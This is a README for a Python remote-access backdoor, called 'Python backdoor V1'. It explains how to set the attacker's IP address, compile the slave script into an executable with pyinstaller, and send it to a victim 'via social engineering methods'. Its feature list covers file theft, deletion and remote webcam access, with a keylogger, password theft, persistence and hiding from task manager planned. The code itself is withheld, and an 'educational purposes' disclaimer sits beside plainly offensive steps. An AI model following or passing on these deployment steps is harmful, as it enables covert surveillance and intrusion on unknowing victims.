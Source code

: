 # Python backdoor V1

<p>This project is a cross-platform (Windows/Linux/android) open source, backdoor and uses reverse http request to make connections between host and slave. It's made using Python 3</p>

# Installation

### Prerequisities
<ul>
<li>Should have python version 3.9.* and above</li>
<li>Contact me on this mail to ask access for this backdoor : <a href="mailto:jayantkhanna3105@gmail.com">jayantkhanna3105@gmail.com</a></li>
<li>Visit this website to get in touch with me through multiple more ways <a href="https://jayantkhanna.herokuapp.com/">jayantkhanna.herokuapp.com</a></li>
</ul>

### Install
```
    git clone "<Git link will be provided after permission is taken>"
```
Then run following commands:

```
    cd backdoor
    pip install pipwin
    pipwin install pyaudio
    pip install -r requirements.txt
```
Software is now installed 

### Usage

Get your local Ip address:

#### For windows
```
ipconfig
```
#### For LINUX
```
ifconfig
```
Copy your ip address and paste them in following files : master.py and slave.pyw <br>

In master.py line 8
```
    host = "your ip"
```

In slave.py line 6 and 33
```
    host = "your ip"
```

Enter slave folder and find slave.pyw file you need to make a exe(windows)/apk(android) to send to remote host via social engineering methods <br>
To convert to exe a module is already provided if you have followed above steps follow these steps
```
    pyinstaller --onefile slave.pyw
```
If you have not installed all modules as told above run following commands:
```
    pip install pyinstaller
    pyinstaller --onefile slave.pyw
```
Make sure you are inside slave folder else you might recieve following error :
```
    102 INFO: UPX is not available.
    script 'path/to/your/download/slave.pyw' not found
```
Make sure master.py is running before remote host tries to connect using slave.pyw 

```
    python master.py
```
If all goes well when remote host double clicks executable file (some name.exe) you should recieve following on your terminal:
```
    python master.py

    waiting for connection
    ('your ip address', <port>) has connected
    command >>
```
# Features
<ul>
<li>Get directory where backdoor is installed</li>
<li>Send, download and remove files and folders from remote system</li>
<li>Always up untill user chooses to end backdoor on remote host</li>
<li>Get OS details</li>
<li>Open remote host's camera remotely</li>
<li>Open remote host's microphone remotely *</li>
<li>Screen share remote host's screen remotely *</li>
<li>Shutdown remote host's computer remotely *</li>
<li>Inbuilt keylogger *</li>
<li>Encrypt/Decrypt files/folder *</li>
</ul>
<p>Features with '*' are not yet present will be added soon</p>

# Plans for future Versions:
<ul>
<li>Even if slave.pyw is run first still master will be able to connect </li>
<li>Work after every restart</li>
<li>Complete control of remote hosts desktop</li>
<li>Migration of task to GUI task on remote host to prevent killing form task manager</li>
<li>Hooking browser with beef</li>
<li>Get saved passwords from remote host</li>
<li>Get remote host Geolocation</li>
<li>Make a web-based GUI for ease of understanding</li>
</ul>

# Disclaimer
<p>This program is for educational purposes only. I take no responsibility or liability for own personal use. You are not allowed to edit this software in any form</p>

# Terms and condition for use
You are not allowed to use or modify this code for any illegal purpose that includes but is not limited to, Modifying code to make Ransomeware, Hacking user for any personal gain, Hacking someone without their knowledge, Targeting an Organization. In case of any such event your information (which is being recorded) will be provided to respected authorities

